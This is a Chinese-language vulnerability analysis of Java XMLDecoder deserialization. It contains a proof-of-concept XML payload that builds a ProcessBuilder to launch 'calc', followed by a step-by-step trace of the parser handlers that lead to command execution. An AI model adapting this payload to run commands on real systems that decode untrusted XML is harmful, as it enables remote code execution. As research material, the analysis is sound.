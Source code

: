 # XMLDecoder反序列化
## 示例代码
```java
package test;
import java.beans.XMLDecoder;
import java.io.IOException;
import java.io.StringBufferInputStream;
class main {

    public static void main(String[] args) throws IOException, InterruptedException {

        String s = "<java version=\"1.7.0_80\" class=\"java.beans.XMLDecoder\">\n" +
                " <object class=\"java.lang.ProcessBuilder\">\n" +
                "  <array class=\"java.lang.String\" length=\"1\">\n" +
                "    <void index=\"0\"><string>calc</string></void>\n" +
                "  </array>\n" +
                "  <void method=\"start\"></void>\n" +
                " </object>\n" +
                "</java>";
        StringBufferInputStream stringBufferInputStream = new StringBufferInputStream(s);
        XMLDecoder xmlDecoder = new XMLDecoder(stringBufferInputStream);
        Object o = xmlDecoder.readObject();
        System.out.println(o);

    }
}
```
## 调用链
在`XMLDocumentFragmentScannerImpl.scanDocument`前主要是初始化xml解析器,然后进入`scanDocument`正式开始处理xml数据,在这之前的调用链如下  
```
scanDocument:462, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:888, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:824, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:141, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1216, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:635, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:324, SAXParserImpl (com.sun.org.apache.xerces.internal.jaxp)
run:377, DocumentHandler$1 (com.sun.beans.decoder)
run:374, DocumentHandler$1 (com.sun.beans.decoder)
doPrivileged:-1, AccessController (java.security)
doIntersectionPrivilege:85, ProtectionDomain$JavaSecurityAccessImpl (java.security)
parse:374, DocumentHandler (com.sun.beans.decoder)
run:201, XMLDecoder$1 (java.beans)
run:199, XMLDecoder$1 (java.beans)
doPrivileged:-1, AccessController (java.security)
parsingComplete:199, XMLDecoder (java.beans)
readObject:250, XMLDecoder (java.beans)
main:19, main (test)
```
### XMLDocumentFragmentScannerImpl.scanDocument
在scanDocument中主要使用Do-While循环来扫描xml各个标签,然后调用next()对不同的节点根据节点名称调用不同的handler来处理,各个handler都存储在一个Hash Map中,在解析到标签的结尾处时,即`SCANNER_STATE_END_ELEMENT_TAG`会进入到scanEndElement()中进行解析.
![1](1.png)  
进入`SCANNER_STATE_END_ELEMENT_TAG`  
![1](9.png)
而对应节点的数据并且通过链表的结构将各个handler连接起来.
类似链表结构
![1](8.png)
即在该POC中的链表结构为`stringHandler->voidHandler->arrayHandler->voidHandler->objectHandler`
在`endElement`方法中调用`this.handler.endElement()`
![1](2.png)
在`endElement()`中则调用了`getValueObject()`来获取对应的值.
![1](3.png)
而在`getValueObject()`中继续调用`getValueObject()`获取值.  
![1](4.png)
![1](5.png)
#### stringHandler
该Handlerz中主要解析了`<string>calc</string>`,在stringHandler中调用`getValueObject()`来将string属性的值赋值给当前handler的sb属性返回.
![1](6.png)
返回后被添加到父节点的参数当中,而父节点为voidHandler.然后将当前handler重置为父节点,即voidHandler.
![1](12.png)
#### 第一个voidHandler
第一个voidhandler主要解析了`<void index="0"><string>calc</string></void>`,然后将handler重置为父节点的arrayhanlder.
![1](13.png)
![1](14.png)
#### ArrayHandler
该Handler主要解析了` <array class="java.lang.String><array>" `,ArrayHandler与StringHandler类似,获取到array标签对应的值后也就是`calc`将其添加到父节点的参数中,然后将当前handler重置为父节点,也就是ObjectHandler.
![1](10.png)
重置为父节点
![1](11.png)
#### 第二个voidHandler
该voidHandler用来解析`<void method="start"></void>`中的`method`属性的start并将其作为参数赋值给父节点Obejct.  
在`getValueObject`中通过getContextBean()获取到一个带有calc参数的ProcessBuilder对象.
在`getContextBean()`的`getValueObject`中,调用了其父节点的`getValueObject()`方法,即OjectHandler的`getValueObject()`方法,在该方法中则直接通过new的方式创建ProcessBuilder对象了返回.
![1](18.png)  
![1](15.png)
在后续的Expression中则将start赋给了的得到Object对象.
![1](16.png)
>public Expression(Object target, String methodName, Object[] arguments)  
按照所给参数创建一个新的Statement对象，使其具有target、  methodName和arguments。 
参数：  
target- 此表达式的 target。  
methodName- 此表达式的 methodName。  
arguments- 此表达式的 arguments。如果该参数为null，则使用一个空数组

最后返回拼接的表达式对象,触发命令执行.
![1](17.png)
# 思路总结
主要原理即在对各个标签的解析当中,直接将取得的object标签值进行了对象的实例化,并通过链表的方式从其它标签中获取其对象的参数值,最后使用了Expression()方法来调用了对象的指定方法造成了我们可以实例化一个ProcessBuilder对象,并调用其start方法来执行命令.